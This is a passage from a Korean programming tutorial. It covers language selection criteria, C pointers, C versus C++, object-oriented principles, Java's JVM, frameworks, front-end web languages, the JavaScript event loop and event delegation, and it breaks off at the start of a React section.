   * 스타트업의 초기 MVP(Minimum Viable Product) 개발 단계에서는 코드 작성 속도와 수정의 유연성이 생명입니다. 이때는 컴파일 단계의 엄격함보다는 풍부한 고수준 추상화를 제공하는 동적 타이핑 언어나 고생산성 프레임워크가 유리합니다.

4. **생태계와 커뮤니티 파워 (Ecosystem & Community)**
   * 어떤 문제를 해결하기 위해 바닥부터 구현해야 하는가, 아니면 검증된 오픈소스 라이브러리와 활발한 커뮤니티의 도움을 즉시 받을 수 있는가의 차이는 프로젝트의 성패를 가릅니다.

5. **러닝 커브와 팀 빌딩 (Learning Curve & Hiring)**
   * 아무리 기술적으로 우수한 언어라도 팀원들이 숙달하는 데 너무 오랜 시간이 걸리거나, 시장에서 해당 언어를 다루는 개발자를 채용하기 어렵다면 장기적인 유지보수 리스크가 발생합니다.

---

### 언어 선택 가이드 종합 매트릭스

| 언어 | 주요 주력 도메인 | 런타임 성능 | 개발 생산성 | 러닝 커브 | 채용 시장 풀 | 추천 프로젝트 유형 |
| :--- | :--- | :---: | :---: | :---: | :---: | :--- |
| **C** | 임베디드, OS 커널, 하드웨어 드라이버 | 최상 | 낮음 | 높음 | 보통 | 극단적 자원 제한 시스템, OS 개발 |
| **C++** | 게임 엔진, 고성능 금융공학(HFT), 그래픽스 | 최상 | 보통 | 매우 높음 | 보통 | 언리얼 엔진 게임, 초저지연 시스템 |
| **Java** | 대규모 엔터프라이즈 백엔드, 금융 시스템 | 상 | 보통 | 보통 | 매우 높음 | 대기업 금융/결제 코어, 공공 플랫폼 |
| **Kotlin** | 모바일(Android), 모던 스프링 백엔드 | 상 | 상 | 보통 | 높음 | 안드로이드 공식 앱, 모던 MSA 서버 |
| **Go** | 클라우드 인프라, 고동시성 마이크로서비스 | 상 | 상 | 낮음 | 높음 | K8s 생태계 도구, 고동시성 네트워크 서버 |
| **Rust** | 시스템 프로그래밍, 브라우저 엔진, 블록체인 | 최상 | 보통 | 매우 높음 | 낮음 | 메모리 안전성이 극도로 중요한 시스템 |
| **Python** | AI/머신러닝, 데이터 분석, 신속한 프로토타이핑 | 보통 | 최상 | 낮음 | 매우 높음 | 딥러닝 파이프라인, AI 백엔드, 자동화 |
| **JavaScript** | 웹 프론트엔드, Node.js 경량 백엔드 | 보통 | 상 | 낮음 | 매우 높음 | 웹 인터랙션, 풀스택 MVP |
| **TypeScript** | 중·대규모 웹 프론트엔드 및 Node/Nest 백엔드 | 보통 | 상 | 보통 | 매우 높음 | 대규모 프론트엔드 웹 앱, 풀스택 기업 서비스 |
| **Swift** | Apple 생태계 네이티브(iOS, macOS, watchOS) | 상 | 상 | 보통 | 보통 | iOS 전용 플래그십 애플리케이션 |
| **C#** | Unity 게임, 윈도우 엔터프라이즈, .NET 서버 | 상 | 상 | 보통 | 높음 | 유니티 3D/2D 게임, 엔터프라이즈 시스템 |

---

## 02 전공자들이 배우는 C언어

수많은 최신 언어들이 쏟아지는 오늘날에도 컴퓨터공학과 커리큘럼의 가장 첫 장에는 언제나 **C언어**가 자리 잡고 있습니다. "파이썬이나 자바스크립트로 시작하는 것이 훨씬 쉽고 빠른데, 왜 여전히 C언어를 가르칠까?"라는 의문이 들 수 있습니다. 그 답은 명확합니다. C언어는 단순한 프로그래밍 언어를 넘어 **컴퓨터 하드웨어의 동작 원리를 온몸으로 이해하게 만드는 최고의 교육용 렌즈**이기 때문입니다.

```
       [ 고수준 언어 ]         [ C 언어 ]               [ 하드웨어 ]
     Python / JS / Java          C Language              CPU & RAM
   ┌───────────────────┐    ┌───────────────────┐    ┌───────────────────┐
   │ 가비지 컬렉터     │    │ 가상화 최소화     │    │ 물리적 메모리 주소 │
   │ 가상 머신(VM)     │ => │ 직접 메모리 주소   │ => │ 레지스터 / 캐시   │
   │ 런타임 추상화     │    │ 포인터 연산       │    │ 바이트 단위 제어   │
   └───────────────────┘    └───────────────────┘    └───────────────────┘
     "컴퓨터가 알아서"       "하드웨어와 직접 대화"    "날것 그대로의 기계"
```

### 1. 하드웨어와 메모리(포인터) 제어의 기초
현대의 고수준 언어들은 개발자가 메모리의 물리적 실체를 보지 못하도록 철저하게 가상화의 장막을 쳐둡니다. 변수를 선언하고 객체를 생성할 때 메모리의 어느 주소에 몇 바이트가 할당되는지, 언제 회수되는지 신경 쓸 필요가 없습니다.

반면 C언어는 개발자에게 메모리 지도(Memory Map)를 그대로 건네줍니다.
* **주소 연산자(`&`)**: 변수가 위치한 RAM의 물리적/가상 시작 바이트 번지를 직접 가져옵니다.
* **역참조 연산자(`*`)**: 그 주소를 나침반 삼아 메모리 공간을 직접 열어보고 값을 기록합니다.
* **포인터(Pointer)**: 메모리 주소를 저장하는 변수 그 자체입니다.

```c
#include <stdio.h>

int main(void) {
    int value = 42;
    int *ptr = &value; // value의 메모리 주소를 포인터 변수에 저장

    printf("value의 실제 값: %d\n", value);
    printf("value의 메모리 주소: %p\n", (void*)&value);
    printf("포인터 변수 ptr이 저장한 주소: %p\n", (void*)ptr);
    printf("포인터를 통해 역참조한 값(*ptr): %d\n", *ptr);

    // 포인터를 통해 원본 메모리의 값을 직접 수정
    *ptr = 100;
    printf("수정 후 value의 값: %d\n", value); // 100 출력

    return 0;
}
```

### 2. 컴퓨터의 사고방식을 배우는 언어
C언어를 배운다는 것은 곧 다음과 같은 컴퓨터 시스템의 물리적 법칙을 학습하는 것입니다.
* **스택(Stack)과 힙(Heap)**: 함수 호출과 함께 생성되고 사라지는 지역 변수의 수명(Stack Frame), 개발자가 수동으로 시스템에 요청하여 얻어내는 동적 메모리(Heap)의 수명 주기를 배웁니다.
* **바이트 단위의 데이터 해석**: 4바이트 정수(`int`)와 8바이트 부동소수점(`double`)이 0과 1의 비트열로 어떻게 메모리에 적재되는지, 리틀 엔디언(Little-endian)과 빅 엔디언(Big-endian)의 차이가 무엇인지 실질적으로 체감합니다.

### 3. 절차지향 프로그래밍(Procedural Programming)의 정수
C언어는 데이터와 그 데이터를 처리하는 함수가 철저히 분리된 **절차지향 언어**입니다. 프로그램은 물이 위에서 아래로 흐르듯 순차적인 함수의 호출과 제어 흐름(조건문, 반복문)으로 이루어집니다. 복잡한 문제를 잘게 쪼개어 함수 단위로 분할 정복(Divide and Conquer)하는 구조적 프로그래밍의 정석을 익히게 됩니다.

---

## 03 C언어와 C++의 차이는 무엇인가요?

C++은 1979년 비야네 스트롭스트룹(Bjarne Stroustrup)이 벨 연구소에서 "C with Classes(클래스를 가진 C)"라는 이름으로 시작한 프로젝트에서 탄생했습니다. C언어의 타협 없는 고성능과 하드웨어 제어 능력을 그대로 유지하면서, 거대해지는 소프트웨어의 복잡도를 제어하기 위해 객체지향과 일반화 프로그래밍 패러다임을 결합한 언어입니다.

```
       C 언어 (1972)                         C++ (1985 ~ Modern C++)
   ┌───────────────────────┐             ┌───────────────────────────────────┐
   │ • 절차지향 (함수 중심)│             │ • 멀티 패러다임                   │
   │ • 데이터와 로직의 분리│   ────────► │   (절차 + 객체지향 + 제네릭)      │
   │ • 수동 메모리 관리    │  C 확장 발전│ • 클래스, 상속, 캡슐화, 다형성    │
   │   (malloc / free)     │             │ • RAII 패턴 및 스마트 포인터      │
   │ • 런타임 유연성 부족  │             │ • STL 컨테이너 및 템플릿 프로그래밍│
   └───────────────────────┘             └───────────────────────────────────┘
```

### 1. 패러다임의 확장: 절차지향 vs 멀티 패러다임
* **C언어**: 데이터는 `struct`에, 로직은 전역 함수에 둡니다. 데이터 스스로 자신을 보호하는 캡슐화 능력이 부족합니다.
* **C++**: 클래스(`class`)를 도입하여 상태(변수)와 행위(메서드)를 하나로 묶고 접근 제한자(`private`, `public`, `protected`)를 통해 무결성을 보장합니다. 나아가 상속과 다형성을 지원하여 현실의 복잡한 비즈니스 로직을 체계적으로 구조화합니다.

### 2. 메모리 수명 관리와 RAII 패턴
C언어에서는 메모리를 `malloc()`으로 할당받으면 반드시 수동으로 `free()`를 호출해야 합니다. 만약 중간에 에러가 발생하여 함수를 빠져나가면 메모리 누수(Memory Leak)가 불가피합니다.

C++은 **RAII(Resource Acquisition Is Initialization: 자원의 획득은 초기화다)** 원칙을 확립했습니다. 객체가 생성될 때(생성자) 자원을 할당받고, 객체가 스택 영역을 벗어나 소멸할 때(소멸자) 컴파일러가 자동으로 메모리를 해제하도록 설계되었습니다.

### 3. STL(Standard Template Library)과 템플릿(Template)
C언어에서는 동적 배열, 연결 리스트, 해시맵을 사용하려면 매번 직접 코드를 작성하거나 외부 라이브러리를 포팅해야 했습니다. 반면 C++은 **STL**을 기본 표준으로 제공합니다.
* 컨테이너: `std::vector`, `std::map`, `std::unordered_map`, `std::deque` 등
* 알고리즘: `std::sort`, `std::find`, `std::binary_search` 등
* 템플릿을 통해 데이터 타입에 종속되지 않는 제네릭(Generic) 코드를 작성할 수 있으며, 이는 런타임 오버헤드 없이 컴파일 시점에 최적화된 기계어로 확장됩니다.

### 4. Zero-overhead Principle (제로 오버헤드 원칙)
C++의 기본 철학은 **"사용하지 않는 것에 대해서는 대가를 치르지 않는다(Zero-overhead)"**입니다. 고수준의 추상화 문법을 제공하되, 그 추상화가 C언어로 직접 정밀하게 작성한 코드보다 성능이 떨어지지 않도록 컴파일 타임 최적화를 극한으로 끌어올립니다.

### C vs C++ 예제 코드 비교

#### [C 스타일: 수동 메모리 관리와 문자열 복사]
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
    // 동적 메모리 수동 할당 (크기 바이트 계산 필수)
    char *str = (char*)malloc(sizeof(char) * 50);
    if (str == NULL) return 1;

    strcpy(str, "Hello, C Language!");
    printf("%s\n", str);

    // 반드시 개발자가 직접 메모리 해제
    free(str);
    return 0;
}
```

#### [C++ 스타일: 클래스, STL, 자동 수명 관리]
```cpp
#include <iostream>
#include <string>
#include <vector>
#include <algorithm>

int main() {
    // std::string이 내부적으로 버퍼 관리 및 자동 해제 수행
    std::string greeting = "Hello, Modern C++!";
    std::cout << greeting << std::endl;

    // 동적 배열 std::vector 사용 (RAII 원칙 적용)
    std::vector<int> numbers = {5, 2, 8, 1, 9};
    numbers.push_back(4); // 동적 크기 확장

    std::sort(numbers.begin(), numbers.end()); // STL 퀵소트 기반 고성능 정렬

    for (int n : numbers) {
        std::cout << n << " ";
    }
    std::cout << std::endl;

    return 0; // 함수 종료 시 numbers와 greeting의 메모리가 자동으로 안전하게 회수됨
}
```

---

## 04 객체 지향이란 무엇인가요?

**객체 지향 프로그래밍(OOP: Object-Oriented Programming)**은 소프트웨어를 단순한 명령어들의 순차적 나열로 보던 시각에서 벗어나, **독립된 역할을 수행하는 자율적인 객체(Object)들의 협력 네트워크**로 바라보는 프로그래밍 패러다임입니다.

초기 컴퓨터 프로그램은 규모가 작아 절차지향적 기법으로도 충분히 통제할 수 있었습니다. 그러나 비즈니스 요구사항이 폭발적으로 늘어나면서 전역 변수의 오염, 코드의 높은 결합도, 유지보수의 악몽인 **스파게티 코드(Spaghetti Code)**가 발생했습니다. 객체 지향은 이러한 복잡성을 극복하기 위해 탄생했습니다.

```
       절차지향 (Procedural)                   객체지향 (OOP)
     ┌───────────────────────┐             ┌───────────────────────┐
     │      전역 데이터      │             │  [객체 A]    [객체 B] │
     │       (Data)          │             │  ┌─────┐    ┌─────┐   │
     │      ▲   ▲   ▲        │             │  │상태 │◄──►│상태 │   │
     │      │   │   │        │   ───────►  │  │행위 │ 메 │행위 │   │
     │   함수1 함수2 함수3   │             │  └─────┘ 시 └─────┘   │
     │  (데이터를 직접 조작) │             │  [객체 C] 지 [객체 D] │
     └───────────────────────┘             └───────────────────────┘
       데이터 변경 시 전체 파급               자율적 객체 간 메시지 통신
```

객체 지향의 본질을 지탱하는 **4대 핵심 원리**를 실생활 비유를 통해 살펴보겠습니다.

---

### 1. 캡슐화 (Encapsulation)
* **정의**: 데이터(상태)와 그 데이터를 조작하는 메서드(행위)를 하나의 단위(클래스)로 묶고, 외부에서 허용되지 않은 직접 접근을 차단하는 원리입니다.
* **실생활 비유 (알약 캡슐과 은행 ATM)**: 감기약을 먹을 때 환자는 캡슐 속에 들어있는 약 성분의 화학적 배합 비율을 몰라도 알약을 삼키면 치료 효과를 얻습니다. 은행 ATM을 이용할 때도 현금 입출금 버튼을 누를 뿐, 기계 내부의 금고 메커니즘을 직접 손으로 건드릴 수 없습니다. 내부 상태를 `private`으로 숨기고(`정보 은닉`), 정해진 공개 인터페이스(`public` 메서드)만을 열어둠으로써 소프트웨어의 무결성을 보호합니다.

### 2. 상속 (Inheritance)
* **정의**: 기존 클래스(부모/상위 클래스)의 속성과 기능을 이어받아 새로운 하위 클래스를 생성하고 확장하는 메커니즘입니다.
* **실생활 비유 (자동차와 전기차)**: 일반적인 '자동차'는 바퀴 4개, 전조등, 주행 및 정지 기능을 기본적으로 갖추고 있습니다. '전기차'는 이 모든 자동차의 기본 특성을 그대로 물려받으면서, 내연기관 대신 '배터리 충전 기능'이나 '회생 제동'이라는 고유한 특성을 추가하여 정의할 수 있습니다. 중복 코드를 극적으로 줄이고 분류 체계를 계층화합니다.

### 3. 추상화 (Abstraction)
* **정의**: 복잡한 세부 구현 내용은 감추고, 사용자에게 꼭 필요한 핵심적인 개념과 공통의 인터페이스만을 간추려 내는 작업입니다.
* **실생활 비유 (자동차의 운전대와 페달)**: 운전자는 가속 페달을 밟으면 차가 앞으로 나간다는 사실만 알면 충분합니다. 페달을 밟았을 때 전자제어장치(ECU)가 연료 분사량을 조절하고 스로틀 밸브가 열리는 복잡한 기계공학적 원리를 알 필요가 없습니다. 복잡성을 격리하여 개발자가 큰 그림의 비즈니스 로직에 집중할 수 있게 합니다.

### 4. 다형성 (Polymorphism)
* **정의**: "하나의 인터페이스나 메서드가 상황에 따라 서로 다른 구체적인 방식으로 동작하는 성질"을 뜻합니다.
* **실생활 비유 (만능 리모컨의 전원 버튼)**: 만능 리모컨의 '전원(Power)' 버튼은 하나지만, TV를 향해 누르면 화면이 켜지고, 에어컨을 향해 누르면 찬 바람이 나오며, 오디오를 향해 누르면 음악이 재생됩니다. 동일한 `turnOn()` 메시지를 전송했을 뿐인데 수신 객체의 실체에 따라 각자 다르게 응답하는 것, 이것이 바로 객체 지향의 유연함을 극대화하는 다형성입니다.
  * **오버로딩(Overloading)**: 같은 이름의 메서드를 매개변수의 타입이나 개수를 달리하여 여러 개 정의하는 것.
  * **오버라이딩(Overriding)**: 부모에게 물려받은 메서드를 자식 클래스에서 상황에 맞게 새롭게 재정의하는 것.

---

## 05 자바(Java)는 어떤 언어인가요?

1995년 썬 마이크로시스템즈(Sun Microsystems, 현 오라클)의 제임스 고슬링(James Gosling)에 의해 개발된 **자바(Java)**는 지난 30년간 글로벌 엔터프라이즈 소프트웨어 생태계를 호령해 온 절대적인 강자입니다.

```
                  [ 자바의 WORA 실행 메커니즘 ]
                  
     소스 코드           바이트코드                  실행 환경 (JVM)
    Hello.java  ───►   Hello.class   ───►  ┌─────────────────────────┐
    (사람이 작성)     (중립적 기계어)       │ Windows JVM / Linux JVM │
                   javac 컴파일러          │ macOS JVM / Cloud JVM   │
                                           │  [ Class Loader ]       │
                                           │  [ JIT Compiler ]       │
                                           │  [ Garbage Collector ]  │
                                           └─────────────────────────┘
                                                "Write Once, Run Anywhere"
```

### 1. WORA 철학과 JVM (Java Virtual Machine)
자바가 등장하기 전 C/C++로 작성된 프로그램은 윈도우용 컴파일러로 빌드하면 리눅스나 유닉스 서버에서 전혀 실행되지 않았습니다. OS와 CPU 아키텍처마다 기계어 명령어 세트와 시스템 콜이 달랐기 때문입니다.

자바는 **"Write Once, Run Anywhere(한 번 작성하면, 어디서든 실행된다)"**라는 혁신적인 슬로건을 내걸었습니다.
* **컴파일 단계**: 개발자가 작성한 `.java` 소스 코드는 특정 CPU의 기계어가 아니라, 가상의 컴퓨터가 이해할 수 있는 **자바 바이트코드(`.class`)**로 컴파일됩니다.
* **실행 단계**: 해당 운영체제에 맞는 **JVM(가바지 컬렉터, JIT 컴파일러 내장)**이 이 바이트코드를 읽어들여 런타임에 기계어로 번역하며 실행합니다.

### 2. JIT(Just-In-Time) 컴파일러의 성능 마법
초기 자바는 바이트코드를 한 줄씩 인터프리터 방식으로 해석하여 실행했기 때문에 C/C++에 비해 현저히 느렸습니다. 그러나 현대의 JVM은 **JIT 컴파일러**를 도입하여 이 한계를 극복했습니다. 프로그램 실행 중 자주 호출되는 '핫스팟(Hotspot)' 코드를 실시간으로 감지하여 네이티브 기계어로 즉각 컴파일하고 캐싱함으로써 순수 C/C++에 근접하는 비약적인 성능을 달성합니다.

### 3. 엔터프라이즈 환경에서의 독보적 신뢰성
전 세계 수많은 은행, 금융기관, 정부 인프라, 대기업 코어 시스템이 자바를 고집하는 이유는 무엇일까요?
* **하위 호환성에 대한 극단적 집착**: 20년 전에 작성된 자바 1.4 코드가 최신 자바 21 런타임에서도 거의 대부분 무수정으로 동작합니다.
* **엄격한 타입 안전성과 예외 처리**: 컴파일 타임에 철저한 문법 및 타입 검증을 수행하고, `try-catch` 기반의 강력한 예외 처리 체계를 제공합니다.
* **자동 메모리 관리**: 가비지 컬렉터(Garbage Collector)가 백그라운드에서 메모리를 자동으로 회수하여 개발자가 메모리 해제 실수로 서버를 다운시키는 사태를 방지합니다.

```java
// 객체지향적 설계와 인터페이스 다형성을 보여주는 Java 예제
interface PaymentService {
    void processPayment(double amount);
}

class CreditCardPayment implements PaymentService {
    @Override
    public void processPayment(double amount) {
        System.out.println("신용카드로 " + amount + "원 결제 승인 완료");
    }
}

class KakaoPayPayment implements PaymentService {
    @Override
    public void processPayment(double amount) {
        System.out.println("카카오페이 간편결제로 " + amount + "원 결제 완료");
    }
}

public class OrderApp {
    public static void main(String[] args) {
        // 다형성을 활용한 결제 서비스 주입
        PaymentService payment = new KakaoPayPayment();
        payment.processPayment(50000.0);
    }
}
```

---

## 06 프레임워크는 무엇이고, 어떤 프레임워크를 선택하는 게 좋을까요?

개발을 시작하면 '라이브러리(Library)'와 '프레임워크(Framework)'라는 용어를 수없이 접하게 됩니다. 두 개념은 흔히 혼용되지만, 소프트웨어 아키텍처 관점에서는 하늘과 땅 차이의 본질적 차이가 있습니다.

```
       라이브러리 (Library)                   프레임워크 (Framework)
    ┌───────────────────────┐             ┌───────────────────────┐
    │  [ 나의 애플리케이션 ]│             │     [ 프레임워크 ]    │
    │           │           │             │           │           │
    │   내가 능동적으로 호출│             │   프레임워크가 내 코드를│
    │           ▼           │             │   적절한 시점에 호출  │
    │     [ 라이브러리 ]    │             │           ▼           │
    │     (도구함의 망치)   │             │   [ 내가 작성한 코드 ]│
    └───────────────────────┘             └───────────────────────┘
     제어의 주도권: "개발자"                제어의 주도권: "프레임워크 (IoC)"
```

### 1. 라이브러리와 프레임워크의 핵심 차이: 제어의 역전(IoC)
* **라이브러리(Library)**: 개발자가 주도권을 쥐고 필요할 때마다 꺼내 쓰는 부품이나 유틸리티 함수들의 집합입니다. (예: 날짜를 변환하는 `date-fns`, 수학 계산 라이브러리, HTTP 클라이언트 `Axios`)
* **프레임워크(Framework)**: 애플리케이션의 전체적인 뼈대와 생명주기를 쥐고 있는 거대한 구조물입니다. 개발자는 프레임워크가 정해둔 규칙과 공간에 비즈니스 로직을 채워 넣을 뿐입니다.
* **헐리우드 원칙 (Hollywood Principle)**: 프레임워크의 동작 방식을 가장 잘 요약하는 격언입니다.
  > *"Don't call us, we'll call you." (우리에게 먼저 전화하지 마세요. 필요하면 우리가 당신을 부를 겁니다.)*
  
  이처럼 제어의 주도권이 개발자에게서 프레임워크로 넘어가는 현상을 **제어의 역전(Inversion of Control, IoC)**이라고 부릅니다.

---

### 2. 대표 프레임워크 비교 및 선택 기준

```
[ 비즈니스 도메인 및 요구사항 ]
  ├── 금융, 엔터프라이즈, 대규모 트래픽 결제 코어 ────────► Spring Boot (Java/Kotlin)
  ├── 스타트업 MVP, 빠른 관리자 페이지, AI 결합 ─────────► Django (Python)
  ├── 초고속 비동기 API, 머신러닝 모델 서빙 ─────────────► FastAPI (Python)
  ├── 프론트/백 언어 일원화, 실시간 I/O, 마이크로서비스 ──► Express / NestJS (Node.js/TS)
  └── 현대적 고성능 반응형 웹 UI & 풀스택 ────────────────► React / Next.js
```

| 프레임워크 | 기반 언어 | 아키텍처 철학 | 강점 | 적합한 프로젝트 |
| :--- | :--- | :--- | :--- | :--- |
| **Spring Boot** | Java, Kotlin | IoC/DI, AOP, 계층형 MVC | 견고한 안정성, 거대한 생태계, 표준 엔터프라이즈 패턴 | 금융, 공공, 대규모 엔터프라이즈 시스템 |
| **Django** | Python | MVT, "Batteries-Included" | 관리자 페이지 기본 제공, 극강의 빠른 초기 개발 속도 | 스타트업 초기 서비스, 데이터 집약적 웹 앱 |
| **FastAPI** | Python | 비동기(ASGI), 타입 힌트 | 초고속 처리 성능, Swagger 문서 자동 생성, AI 연동 | AI/ML 모델 추론 API, 현대적 마이크로서비스 |
| **NestJS** | TypeScript | 모듈러 아키텍처, IoC/DI | Spring과 유사한 구조적 견고함, 풀스택 TS 일원화 | 엔터프라이즈 Node.js 서버, 대규모 백엔드 |
| **Next.js** | React (JS/TS) | 컴포넌트 기반, SSR/SSG | 강력한 SEO 최적화, 프론트/서버 통합 풀스택 지원 | 전자상거래, 콘텐츠 플랫폼, B2C 웹 서비스 |

---

## 07 프론트엔드 개발 언어는 무엇인가요?

사용자가 브라우저를 켜고 마주하는 모든 시각적 인터랙션은 **웹의 삼총사(HTML, CSS, JavaScript)**라는 세 가지 언어의 긴밀한 오케스트레이션에 의해 탄생합니다. 건물을 짓는 과정에 비유하면 세 언어의 역할 분담을 명쾌하게 이해할 수 있습니다.

```
       [ HTML ]                  [ CSS ]               [ JavaScript ]
    웹 문서의 뼈대             시각적 인테리어            생명을 불어넣는 신경계
  ┌───────────────────┐     ┌───────────────────┐     ┌───────────────────┐
  │ • 시맨틱 태그 구조│     │ • 색상, 폰트, 여백│     │ • 사용자 클릭 반응│
  │ • 텍스트, 이미지  │  +  │ • Flexbox / Grid  │  +  │ • 비동기 데이터 통신│
  │ • 문서의 논리적 폼│     │ • 반응형 레이아웃 │     │ • 동적 화면 재구성│
  └───────────────────┘     └───────────────────┘     └───────────────────┘
```

### 1. 웹의 삼총사 역할 분석
1. **HTML(HyperText Markup Language - 구조)**: 웹 문서의 뼈대를 형성합니다. 제목(`<h1>`), 단락(`<p>`), 버튼(`<button>`), 링크(`<a>`) 등의 태그를 통해 콘텐츠의 의미론적(Semantic) 구조를 정의합니다.
2. **CSS(Cascading Style Sheets - 표현)**: 뼈대에 아름다운 옷을 입힙니다. 레이아웃(Flexbox, Grid), 폰트, 색상, 애니메이션, 그리고 스마트폰과 PC 화면에 유연하게 대응하는 반응형 미디어 쿼리를 담당합니다.
3. **JavaScript(동적 동작)**: 멈춰 있는 정적 문서에 생명을 불어넣습니다. 사용자가 버튼을 클릭했을 때 모달 창을 띄우거나, 새로고침 없이 서버에서 최신 데이터를 가져와 화면을 갱신하는 모든 동적 인터랙션을 총괄합니다.

### 2. 브라우저 렌더링 파이프라인 (Critical Rendering Path)
브라우저가 이 세 언어로 작성된 텍스트 파일을 화면에 그려내는 과정은 고도의 컴퓨터 그래픽스 파이프라인을 거칩니다.

```
  HTML  ──► [ DOM 트리 생성 ]
                                ──► [ Render Tree 결합 ] ──► [ Layout (Reflow) ] ──► [ Paint (Repaint) ] ──► 화면 출력
  CSS   ──► [ CSSOM 트리 생성]                                (요소 크기·위치 계산)   (픽셀 단위 색칠)
```

* **Layout(Reflow)**: 각 노드가 화면의 어디에 몇 픽셀 크기로 배치되어야 하는지 기하학적 위치를 계산합니다. 연산 비용이 매우 큽니다.
* **Paint(Repaint)**: 계산된 위치에 텍스트, 색상, 그림자, 이미지를 실제 모니터 픽셀로 변환합니다.

### 3. ECMAScript(ES) 표준의 눈부신 발전
자바스크립트는 1995년 넷스케이프의 브렌던 아이크(Brendan Eich)에 의해 단 10일 만에 설계되었습니다. 초기에는 단순한 폼 검증용 스크립트에 불과했으나, 웹 표준화 기구인 ECMA 인터내셔널에 의해 **ECMAScript**라는 공식 표준 규격으로 발전했습니다.

특히 **ES6 (ECMAScript 2015)**는 자바스크립트 역사의 일대 전환점이었습니다.
* **`let`, `const`**: 함수 스코프의 취약점을 가진 `var`를 대체하고 블록 스코프 도입
* **화살표 함수(Arrow Function)**: 간결한 문법과 직관적인 Lexical `this` 바인딩
* **클래스(Class) 문법 지원**: 프로토타입 기반 상속을 친숙한 객체지향 문법으로 포장
* **모듈 시스템(`import`/`export`)**: 거대 애플리케이션의 파일 단위 분할 가능
* **비동기 Promise**: 복잡한 콜백 헬(Callback Hell)을 평탄화하는 표준 비동기 객체

---

## 08 프론트엔드 개발에서 이벤트 처리가 무엇인가요?

사용자가 웹 브라우저 화면에서 마우스를 움직이거나, 버튼을 클릭하고, 키보드를 입력하며, 스크롤을 내릴 때마다 브라우저는 수많은 **이벤트(Event)** 신호를 뿜어냅니다. 프론트엔드 개발의 핵심은 이 신호를 적절한 시점에 포착하여 사용자에게 매끄러운 반응을 돌려주는 것입니다.

### 1. 싱글 스레드와 이벤트 루프 (Event Loop)
자바스크립트 엔진(V8 등)은 단 하나의 작업만을 순차적으로 처리할 수 있는 **싱글 스레드(Single Thread)**로 동작합니다. 그런데 어떻게 대용량 이미지를 다운로드하면서 동시에 사용자의 버튼 클릭에 렉 없이 즉각 반응할 수 있을까요?

비결은 바로 브라우저의 백그라운드 환경과 **이벤트 루프(Event Loop)** 아키텍처에 있습니다.

```
  [ Call Stack (호출 스택) ]             [ Web APIs (브라우저 백그라운드) ]
  ┌─────────────────────────┐             ┌───────────────────────────────────┐
  │ main()                  │             │ • DOM Event Listeners             │
  │ handleClick()           │             │ • setTimeout / setInterval        │
  └─────────────────────────┘             │ • fetch (네트워크 통신)           │
               │                          └───────────────────────────────────┘
               │ 스택이 비었는지 감시                          │ 비동기 작업 완료 시 콜백 등록
               ▼                                              ▼
       ┌──────────────┐                        ┌───────────────────────────────┐
       │  Event Loop  │ ◄──────────────────────┤  Task Queue (Macrotask Queue) │
       │ (이벤트 루프)│  큐의 콜백을 스택으로  │  Microtask Queue (Promise 등) │
       └──────────────┘  옮겨 담음             └───────────────────────────────┘
```

1. 동기 함수는 **호출 스택(Call Stack)**에 쌓여 즉시 실행됩니다.
2. `fetch()`나 `addEventListener` 같은 비동기/이벤트 작업은 브라우저의 **Web API**로 위임됩니다.
3. 비동기 작업이 완료되거나 사용자 클릭이 발생하면 등록된 콜백 함수가 **태스크 큐(Task Queue)**에 대기열로 줄을 섭니다.
4. **이벤트 루프**는 호출 스택이 완전히 비어있는지 지속적으로 확인하다가, 스택이 비는 순간 태스크 큐의 콜백을 스택으로 밀어 올려 실행합니다.

---

### 2. DOM 이벤트 전파: 캡처링과 버블링

HTML 문서는 부모 태그 안에 자식 태그가 중첩된 트리(Tree) 구조입니다. 만약 버튼(`button`)을 감싸고 있는 `div`가 있고, 그 `div`를 감싸고 있는 `body`가 있을 때, 버튼을 클릭하면 이벤트는 어떻게 이동할까요?

```
                 1. 캡처링 단계 (Capturing Phase)
                 Window ──► Document ──► <body> ──► <div> ──┐
                                                            ▼
                                                       [ <button> ] ◄── 2. 타깃 단계
                                                            │
                 3. 버블링 단계 (Bubbling Phase)            ▲
                 Window ◄── Document ◄── <body> ◄── <div> ──┘
```

1. **캡처링 단계(Capturing Phase)**: 최상위 `Window` 객체에서 출발하여 이벤트가 발생한 실제 타깃 요소까지 DOM 트리를 타고 내려옵니다.
2. **타깃 단계(Target Phase)**: 실제 클릭된 요소에 도달하여 이벤트 핸들러를 실행합니다.
3. **버블링 단계(Bubbling Phase)**: 타깃 요소에서 시작하여 마치 물속의 거품이 수면으로 뽀글뽀글 올라가듯 최상위 조상 요소까지 이벤트를 전달합니다.

### 3. 이벤트 위임 (Event Delegation)
버블링 특성을 활용하면 대단히 강력한 최적화 기법을 구사할 수 있습니다. 예를 들어 100개의 리스트 아이템(`<li>`)이 있을 때, 각 아이템마다 100개의 이벤트 리스너를 달면 메모리가 낭비됩니다. 대신 공통 부모인 `<ul>`에 **단 하나의 리스너**만 등록하고, 실제로 클릭된 자식 요소를 판별(`e.target`)하여 처리하는 방식을 **이벤트 위임**이라고 합니다.

```javascript
// 이벤트 위임(Event Delegation) 구현 예제
const todoList = document.querySelector('#todo-list');

// 부모 요소에 단 하나의 리스너 등록
todoList.addEventListener('click', (event) => {
    // 실제로 클릭된 요소가 삭제 버튼인지 확인
    if (event.target.classList.contains('delete-btn')) {
        const item = event.target.closest('li');
        item.remove();
        console.log('항목 삭제 완료:', item.textContent);
    }
});
```

---

## 09 리액트(React)는 무엇이고, 왜 많이 사용되나요?

2013년 메타(Meta, 구 페이스북)가 오픈소스로 공개한 **리액트(React)**는 전 세계 웹 프론트엔드 생태계의 판도를 완전히 바꾸어 놓았습니다. 단순한 UI 라이브러리를 넘어 사실상 현대 프론트엔드 개발의 글로벌 표준으로 군림하고 있습니다.

```
  전통적 방식: 명령형 (Imperative)             리액트 방식: 선언형 (Declarative)
  "화면의 어느 요소를 찾아서 어떻게 바꿔라"       "상태(State)가 이러하니, 화면은 이러해야 한다"

  ┌──────────────────────────────┐            ┌──────────────────────────────┐
  │ const el = getElementById(); │            │ function Counter() {         │
  │ el.innerText = newCount;     │    ───►    │   const [cnt, setCnt] = ...  │
  │ el.style.color = 'red';      │            │   return <h1>{cnt}</h1>;     │
  └──────────────────────────────┘            └──────────────────────────────┘
    DOM 직접 조작 (복잡도 기하급수 증가)          UI = f(State) : 상태 기반 자동 렌더링
```

### 1. 컴포넌트 기반 아키텍처 (Component-Based Architecture)
